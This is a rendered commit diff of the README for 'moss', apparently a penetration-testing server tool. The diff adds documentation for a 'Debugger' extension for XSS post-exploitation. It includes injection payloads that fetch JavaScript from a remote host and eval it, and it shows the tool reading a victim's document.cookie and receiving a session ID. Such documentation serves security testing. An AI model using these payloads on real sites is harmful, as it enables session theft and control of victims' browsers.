

Before and after one commit to TrebledJ/moss, a Markdown page: README.md, the part around the change printed below. Shown: that part at 85% size. Rendered like a GitHub page; pictures changed too: docs/img/debugger.png (added); blank space fills up the shorter version.

Commit message:
chore: documentation

````diff
--- a/README.md
+++ b/README.md
@@ -586,10 +601,58 @@ moss -e notify \
 
 <!-- TODO: screen record -->
 
-(Will add more documentation in the future)
+This is a simple notification extension. Probably more verbose than is needed. But it does the job.
 
+Currently only Discord is supported.
+
+PRs welcome.
+
+## Debugger
+
+Recommended Command:
+
+```shell
+pip install prompt_toolkit jsonschema
+
+moss -e debugger \
+    --debugger-key mypassword \
+    --no-log --server random \
+    --https --certfile ... --keyfile ...
+```
+
+![Debugger Demo](docs/img/debugger.png)
+
+Debugger is an extension for XSS post-exploitation, as such the guide presumes you have discovered an XSS vector as a prerequisite.
+
+First, start the server.
+
+```shell
+moss -e debugger
+```
+
+Then inject the JS payload into a browser context:
+
+```html
+<script src="http://example.com:8000/debugger/{RANDOM}"></script>
+<script>import("http://example.com:8000/debugger/{RANDOM}")</script>
+javascript:fetch("http://example.com:8000/debugger/{RANDOM}").then(r => r.text()).then(code => eval(code))
+```
+
+Once the JS runs, the TUI prompt shows `debug [1 conns]> `.
+
+Now you can interact with the agent by entering a JS expression:
+
+```text
+debug [1 conns]> document.cookie
+```
+
+When the agent polls the server, the server responds with pending payloads. The agent then `eval`s the payloads and sends the results back to the server:
+
+```text
+ ✓ [2026-05-23 07:42:00] (document.cookie) (browser1) sessionid=abc123
+```
 
 ## HTTPS Support
 
-Polyglot support is mainly there for the tester's convenience. You only need to remember one port. Of course, if you want separate ports, you are free to spin up the servers to your liking.
+When `--https` is specified, HTTPS will be enabled on the same port. This means the same port provided by `-p` will support HTTP _and_ HTTPS. This polyglot support primarily exists for convenience. You only need to remember one port. Of course, if you want separate ports, you are free to spin up the servers to your liking. And if you want to force HTTPS, you can use `--https-only`.
 
````
Also changed, not shown: other parts of README.md (+311 -290 lines), docs/ext/DEBUGGER.md (+17 -66 lines), docs/img/cve-2026-21967.png (added), docs/img/pastebin.png (added), docs/img/stealthnet.png (added), 2 other files.
